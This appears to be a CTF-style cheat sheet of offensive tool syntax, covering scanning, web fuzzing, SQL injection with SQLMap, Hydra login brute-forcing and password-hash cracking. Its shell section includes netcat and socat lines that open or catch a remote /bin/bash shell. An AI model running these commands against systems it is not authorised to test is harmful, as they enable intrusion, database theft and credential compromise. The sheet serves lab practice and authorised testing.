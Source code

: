 
# 🛠️ Tool Syntax Cheatsheet  
*"A tool is only as good as the hacker who wields it." - CTF Sage*

## 🔎 Reconnaissance Tools

### Nmap – Network Scanning
```bash
nmap -sV -T4 <IP>                   # Service/version scan
nmap -p- <IP>                       # Full port scan (1–65535)
nmap -A -T4 <IP>                    # Aggressive scan (OS + scripts)
nmap -sU -p 53,161 <IP>             # UDP scan (example: DNS, SNMP)
nmap -Pn -n <IP>                    # Skip host discovery + DNS
```

### Masscan – Fast Port Scanner
```bash
masscan <IP> -p1-65535 --rate=1000  # Full TCP scan with throttle
```

## 🌐 Web Enumeration

### FFUF – Fuzzing URLs/Parameters
```bash
ffuf -w wordlist.txt -u http://<IP>/FUZZ -mc 200
ffuf -w words.txt -u http://<IP>/page.php?id=FUZZ -fs 0
ffuf -w /usr/share/wordlists/amass/subdomains-top1mil-110000.txt -u http://cyprusbank.thm/ -H "Host:FUZZ.cyprusbank.thm" -fw 1 - 500 
```

### Gobuster – Directory Bruteforcing
```bash
gobuster dir -u http://<IP> -w common.txt -x php,txt,html -t 50
gobuster dns -d domain.com -w subdomains.txt
```

### Nikto – Web Vulnerability Scanner
```bash
nikto -h http://<IP>                # Basic scan
```

## 🧪 Web Exploitation

### SQLMap – SQL Injection
```bash
sqlmap -u "http://<IP>/page?id=1" --batch --risk=3
sqlmap -r request.txt --dbs        # Use request file with headers
sqlmap -u <url> --dump-all         # Dump all databases
```

### Hydra – Bruteforce Login Forms
```bash
hydra -l admin -P rockyou.txt <IP> http-post-form \
"/login.php:user=^USER^&pass=^PASS^:F=incorrect"
hydra -L users.txt -P passwords.txt ssh://<IP>
```

## 🔑 Cracking & Hashing

### John the Ripper
```bash
john --wordlist=rockyou.txt hash.txt
john --format=raw-md5 hash.txt
john --show hash.txt                # Show cracked passwords
```

### Hashcat – GPU-Accelerated Cracking
```bash
hashcat -m 0 -a 0 hash.txt rockyou.txt      # MD5
hashcat -m 1000 -a 0 hash.txt rockyou.txt   # NTLM
hashcat -m 1800 -a 0 hash.txt rockyou.txt   # sha512crypt
```

### HashID – Identify Hash Types
```bash
hashid "$1$O3JMY.Tw$AdLnLjQ/5jXF9..."
```

## 🐚 Shell Access & Interaction

### Netcat (nc)
```bash
nc -nvlp 4444                        # Listen for reverse shell
nc <IP> 4444                         # Send a shell
rlwrap nc -nvlp 4444                 # With readline support
```

### Socat
```bash
socat TCP-LISTEN:4444,reuseaddr,fork EXEC:/bin/bash
socat FILE:`tty`,raw,echo=0 TCP:<IP>:4444
```

## 📦 Enumeration & Discovery Tools

### Enum4linux – SMB Enumeration
```bash
enum4linux -a <IP>
```

### SMBclient – Connect to SMB Shares
```bash
smbclient //IP/share -U anonymous
```

### Wfuzz – Parameter & Auth Fuzzing
```bash
wfuzz -c -z file,wordlist.txt --hc 404 http://<IP>/FUZZ
```

## ⚙️ Wordlist Helpers

### CeWL – Custom Wordlist Generator
```bash
cewl http://site.com -w wordlist.txt
```

### Crunch – Custom Wordlist Generator
```bash
crunch 4 6 abc123 -o wordlist.txt   # 4–6 char words with abc123
```

## 🧰 Tool Installation (Debian/Ubuntu)
```bash
sudo apt install nmap ffuf gobuster sqlmap hydra \
john hashcat enum4linux smbclient seclists rlwrap
```

---

## 🔁 Bonus Tips

### Combine tools for better intel
```bash
nmap -p 80 <IP> --script=http-title
ffuf -w common.txt -u http://<IP>/FUZZ -mc 200 -o ffuf.json
```

### Use Seclists for wordlists
```bash
/usr/share/seclists/Discovery/Web-Content/common.txt
```

---

💡 *“Master the tools, but never forget the fundamentals.”*
